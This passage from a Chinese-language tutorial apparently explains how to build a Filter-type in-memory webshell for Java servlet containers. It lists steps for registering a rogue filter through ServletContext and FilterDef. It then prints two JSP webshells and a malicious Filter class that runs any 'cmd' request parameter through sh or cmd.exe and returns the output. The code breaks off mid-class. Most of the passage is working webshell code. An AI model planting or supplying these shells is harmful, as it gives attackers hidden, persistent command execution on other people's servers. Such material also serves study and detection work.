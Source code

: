 1、通过当前应用的ServletContext对象  
2、通过ServletContext对象再获取filterConfigs  
3、接着实现自定义想要注入的filter对象  
4、然后为自定义对象的filter创建一个FilterDef  
5、最后把ServletContext对象、filter对象、FilterDef全部都设置到filterConfigs即可完成内存马的实现  
## 0x04 Filter型内存马的实现  
JSP的无回显木马  
```java  
&lt;% Runtime.getRuntime().exec(request.getParameter(&#34;cmd&#34;));%&gt;  
```  
回显的木马  
```java  
&lt;% if(request.getParameter(&#34;cmd&#34;)!=null){  
    java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter(&#34;cmd&#34;)).getInputStream();  
    int a = -1;  
    byte[] b = new byte[2048];  
    out.print(&#34;&lt;pre&gt;&#34;);  
    while((a=in.read(b))!=-1){  
        out.print(new String(b));  
    }  
    out.print(&#34;&lt;/pre&gt;&#34;);  
}  
%&gt;  
```  
将要这个有回显的木马插入到Filter里面，配置一个恶意的Filter  
```java  
import javax.servlet.*;    
import javax.servlet.http.HttpServletRequest;    
import javax.servlet.http.HttpServletResponse;    
import java.io.IOException;    
import java.io.InputStream;    
import java.util.Scanner;    
    
public class filter implements Filter{    
    @Override    
    public void init(FilterConfig filterConfig) throws ServletException {    
        System.out.println(&#34;Filter 初始构造完成&#34;);    
    }    
    
    @Override    
    public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException {    
        HttpServletRequest request = (HttpServletRequest) servletRequest;    
        HttpServletResponse response = (HttpServletResponse) servletResponse;    
        if(request.getParameter(&#34;cmd&#34;) != null){    
            boolean isLinux = true;    
            String osTyp = System.getProperty(&#34;os.name&#34;);    
            if(osTyp !=null &amp;&amp; osTyp.toLowerCase().contains(&#34;win&#34;)){    
                isLinux = false;    
            }    
            String[] cmds = isLinux ? new String[]{&#34;sh&#34;,&#34;-c&#34;,request.getParameter(&#34;cmd&#34;)} : new String[]{&#34;cmd.exe&#34;,&#34;/c&#34;,request.getParameter(&#34;cmd&#34;)};    
            InputStream in = Runtime.getRuntime().exec(cmds).getInputStream();    
            Scanner s = new Scanner(in);    
            String output = s.hasNext() ? s.next() : &#34;&#34;;    
            response.getWriter().write(output);    
            response.getWriter().flush();    
        }    
        filterChain.doFilter(servletRequest,servletResponse);    
    }    
    
```